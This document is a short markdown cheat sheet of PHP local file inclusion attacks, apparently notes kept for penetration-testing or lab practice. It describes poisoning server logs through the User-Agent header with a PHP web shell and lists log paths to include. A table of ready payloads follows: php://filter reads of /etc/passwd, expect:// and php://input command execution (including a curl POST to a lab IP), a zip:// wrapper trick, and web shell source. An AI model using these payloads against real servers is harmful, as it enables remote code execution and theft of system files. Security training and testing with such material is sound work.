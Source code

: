 # FILE INCLUSION DIRECTORY TRAVERSAL
#web 

## Read log file to RCE 
By adding php code to log file and then read it through file inclusion we have the options to execute php code. 

`User-Agent` to a PHP shell such as `<?php system($_GET['cmd']); ?>`. This gets logged into the file and gets executed by the server as PHP code on inclusion.

`/var/log/apache2/access.log`,`/var/log/nginx/access.log`, `/var/log/sshd.log`, `/var/log/mail`, and `/var/log/vsftpd.log`.

|Command|Description|
|---|---|
|`php://filter/read=convert.base64-encode/resource=/etc/passwd`|PHP filter to convert file contents to Base64|
|`php://filter/read=string.rot13/resource=/etc/passwd`|PHP filter to convert file contents to ROT13|
|`expect://id`|Command execution with PHP `Expect` wrapper|
|`curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"`|Using PHP `Input` wrapper for command execution|
|`zip://malicious.zip%23exec.php&cmd=id`|Command execution with the PHP `Zip` wrapper|
|`<?php system($_GET['cmd']); ?>`|PHP web shell file contents (i.e., shell.php)|